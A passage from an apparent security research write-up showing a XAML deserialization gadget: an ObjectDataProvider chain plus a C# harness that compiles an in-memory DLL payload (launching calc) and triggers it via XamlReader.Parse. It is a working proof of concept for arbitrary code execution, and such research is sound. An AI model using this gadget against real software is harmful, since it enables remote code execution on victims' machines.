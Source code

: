 ```xml
    <ObjectDataProvider x:Key="invoke" ObjectInstance="{StaticResource method}" MethodName="Invoke">
        <ObjectDataProvider.MethodParameters>
            <x:Null></x:Null>
            <x:Array Type="{x:Type s:Object}"></x:Array>
        </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>
```

And here is the code to test it. For convenience, we've added a `BuildAssembly` method that builds the DLL payload, so it's not necessary to run `csc` to do it.

```csharp
using Microsoft.CSharp;
using System;
using System.CodeDom.Compiler;
using System.Reflection;
using System.Text;
using System.Windows.Markup;

namespace XAMLTests
{
    internal class Program
    {
        static void Main(string[] args)
        {
            var assemblyBytes = BuildAssembly();
            var xaml = AssemblyLoad(assemblyBytes);
            Console.WriteLine(xaml);
            Console.ReadKey();

            XamlReader.Parse(xaml);
        }

        static byte[] BuildAssembly()
        {
            string code = @"
using System.Diagnostics;

public class Payload
{
        public static void Run()
        {
                Process.Start(""calc"");
        }
}
";

            CompilerParameters compilerParameters = new CompilerParameters();
            compilerParameters.GenerateInMemory = true;
            compilerParameters.TreatWarningsAsErrors = false;
            compilerParameters.GenerateExecutable = false;
            compilerParameters.CompilerOptions = "/target:library /optimize";
            compilerParameters.ReferencedAssemblies.AddRange(new string[]
            {
                "mscorlib.dll",
                "System.dll"
            });
            CSharpCodeProvider cSharpCodeProvider = new CSharpCodeProvider();
            CompilerResults compilerResults = cSharpCodeProvider.CompileAssemblyFromSource(compilerParameters, code);

            if (compilerResults.Errors.HasErrors)
```